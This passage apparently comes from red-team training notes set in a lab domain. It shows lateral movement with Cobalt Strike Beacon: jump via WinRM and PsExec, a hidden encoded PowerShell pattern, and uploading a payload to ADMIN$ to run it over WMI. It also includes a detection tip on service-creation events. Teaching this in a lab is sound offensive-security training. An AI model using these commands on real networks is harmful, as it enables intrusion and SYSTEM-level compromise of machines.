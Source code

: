 The SMB Beacon is an excellent choice when moving laterally, because the SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.

```
beacon> jump winrm64 web.dev.cyberbotic.io smb
```

WinRM will return a high integrity Beacon running as the user with which you're interacting with the remote machine as.


## PSExec

---

The `psexec` / `psexec64` commands work by uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  Beacons executed this way run as SYSTEM.

```
beacon> jump psexec64 web.dev.cyberbotic.io smb
```

A reliable way of searching for PsExec is by looking for 4697 service created events.  These are often quite rare, unless a service comes with a software installation or something similar.  Cobalt Strike generates a random 7-character alphanumeric string which it uses for both the service name and binary filename.  When setting the binPath for the service, it uses a UNC path to the ADMIN$ share.

`psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).  The pattern it uses by default is `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ...`.

```
beacon> jump psexec_psh web smb
```


## Windows Management Instrumentation

---

As you may have noticed, WMI is not part of the `jump` command but it is part of `remote-exec`. The `remote-exec` method uses WMI's "process call create" to execute any command we specify on the target. The most straight forward means of using this is to upload a payload to the target system and use WMI to execute it.

You can upload a file to a remote machine by `cd`'ing to the desired UNC path and then use the `upload` command.

```
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
Started process 3280 on web.dev.cyberbotic.io
```

The process is now running on WEB so now we need to connect to it.
